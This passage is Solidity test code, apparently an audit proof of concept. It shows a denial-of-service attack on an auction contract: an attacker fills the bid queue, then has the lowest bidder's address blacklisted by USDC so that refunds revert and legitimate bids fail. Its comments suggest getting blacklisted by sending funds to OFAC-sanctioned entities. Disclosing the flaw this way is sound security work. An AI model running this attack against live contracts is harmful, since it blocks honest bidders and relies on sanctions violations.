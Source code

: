 ```solidity
        // 2nd step - submit 1000th bid (the one that fills up the bid queue) from another address
        // USDC amount spent is minimal - 1x slotSize per bid
        // WETH amount is a little bit lower than in previous 999 bids - this bid has to be the lowest one
        address attackerAddressB = makeAddr("attacker address B");
        wethAmount += 1;
        usdcAmount = slotSize;
        deal(couponToken, attackerAddressB, usdcAmount);
        vm.startPrank(attackerAddressB);
        IERC20(couponToken).approve(address(auction), usdcAmount);
        auction.bid({buyReserveAmount: wethAmount, sellCouponAmount: usdcAmount});
        vm.stopPrank();
        console.log("addressB submitted 1000th bid");

        // 3rd step - now attacker's goal is to get his addressB blacklisted by Circle as soon as possible.
        // Quick way to do it is to start sending TXs to the US OFAC sanctioned entities. This should automatically trigger blacklisting process
        // Here we mock blacklisting of the addressB
        vm.mockCallRevert(
            couponToken, abi.encodeWithSelector(IERC20.transfer.selector, attackerAddressB, slotSize), "Blacklisted!"
        );
        console.log("addressB (lowest bidder) got blacklisted");

        // 4th step - legitimate bidder tries to submit bid. Since queue is already filled with 1000 bids, the lowest one has to be removed.
        // However removing the lowest bid means sending refund USDC to the blacklisted address -> TX will revert
        address legitimateBidder = makeAddr("legitimateBidder");
        wethAmount = 1 ether;
        usdcAmount = slotSize * 40;
        deal(couponToken, legitimateBidder, usdcAmount);
        vm.startPrank(legitimateBidder);
        IERC20(couponToken).approve(address(auction), usdcAmount);
        console.log("Try submitting legitimate bid");
        auction.bid({buyReserveAmount: wethAmount, sellCouponAmount: usdcAmount});
        vm.stopPrank();
    }

    function _createFactory() internal returns (PoolFactory) {
        vm.startPrank(deployer);

        // create factory
        address oracleFeedsContract = address(new OracleFeeds());
        PoolFactory factory = PoolFactory(
            Utils.deploy(
                address(new PoolFactory()),
                abi.encodeCall(
                    PoolFactory.initialize,
                    (
                        governance,
                        address(new Deployer()),
                        oracleFeedsContract,
                        address(new UpgradeableBeacon(address(new Pool()), deployer)),
                        address(new UpgradeableBeacon(address(new BondToken()), deployer)),
                        address(new UpgradeableBeacon(address(new LeverageToken()), deployer)),
                        address(new UpgradeableBeacon(address(new Distributor()), deployer))
                    )
                )
            )
        );
        vm.stopPrank();
```